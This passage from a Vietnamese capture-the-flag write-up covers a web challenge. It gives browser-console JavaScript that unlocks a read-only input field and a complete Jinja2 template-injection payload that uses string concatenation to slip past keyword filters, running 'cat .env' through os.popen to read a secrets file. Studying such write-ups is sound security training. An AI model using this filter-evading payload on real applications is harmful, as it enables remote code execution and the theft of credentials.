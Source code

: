         - **Lỗi `unexpected ')'`:** Hàm `getattr()` lồng nhau có thể đã kích hoạt một bộ lọc mẫu hình (pattern filter). Giải pháp là quay lại cú pháp `['attribute']` nhưng kết hợp với **nối chuỗi** để che giấu từ khóa (ví dụ: `['__glo' + 'bals__']`).
        - **Lỗi `has no attribute 'p[REDACTED]'`:** Tiết lộ rằng WAF cũng lọc cả tên các hàm hệ thống nguy hiểm như `open`. Giải pháp là áp dụng kỹ thuật nối chuỗi cho cả tên hàm (`['pop' + 'en']`).
4. **Giai đoạn 4: Tìm và Đọc Flag**
    - Sau khi xây dựng thành công một payload RCE hoàn chỉnh, lệnh `cat /flag.txt` trả về kết quả rỗng.
    - Sử dụng payload để chạy lệnh `ls -la` và do thám hệ thống file. Kết quả cho thấy sự tồn tại của file `.env`.
    - Thay đổi lệnh trong payload thành `cat .env` để đọc nội dung file này và lấy được cờ cuối cùng.

---

## Kịch bản giải mã (Exploit)

Quá trình khai thác bao gồm hai phần: mã JavaScript để mở khóa form và payload SSTI cuối cùng.

**1. Mã JavaScript để mở khóa ô nhập liệu (chạy trong Console):**

```jsx
const trickInput = document.getElementById('trick');
trickInput.removeEventListener('focus', window.trickFocus);
trickInput.removeEventListener('keydown', window.trickKeyHandler);
for (let i = 0; i < 1000; i++) { clearInterval(i); }
trickInput.readOnly = false;
trickInput.dataset.locked = '0';

```

**2. Payload SSTI cuối cùng để đọc flag (đặt vào ô nhập liệu):**

Payload này được thiết kế để vượt qua tất cả các bộ lọc đã được phát hiện.

```python
{{ self['__in' + 'it__']['__glo' + 'bals__']['__buil' + 'tins__']['__im' + 'port__']('os')['pop' + 'en']('cat .env')['re' + 'ad']() }}

```

---

## Kết quả (Flag)

Sau khi gửi payload SSTI cuối cùng, máy chủ thực thi lệnh và trả về nội dung của file `.env`.

`FLAG=EnXp{N01T53UQFTC34T3DAM5A47ANUK}`

---

## Ghi chú và mẹo

- Đây là một ví dụ điển hình về một thử thách web có chiều sâu, nơi lớp bảo vệ ban đầu (JavaScript) chỉ là khởi đầu.
- Luôn phân tích kỹ các thông báo lỗi từ máy chủ. Chúng là những manh mối quý giá nhất để hiểu và vượt qua các cơ chế lọc của WAF.
- Khi một kỹ thuật bypass bị chặn, hãy luôn nghĩ đến các cách khác để thực hiện cùng một hành động trong ngôn ngữ/framework mục tiêu (ví dụ: 3 cách truy cập thuộc tính trong Python).
- Kỹ thuật nối chuỗi là một phương pháp rất hiệu quả để vượt qua các bộ lọc dựa trên từ khóa tĩnh.

---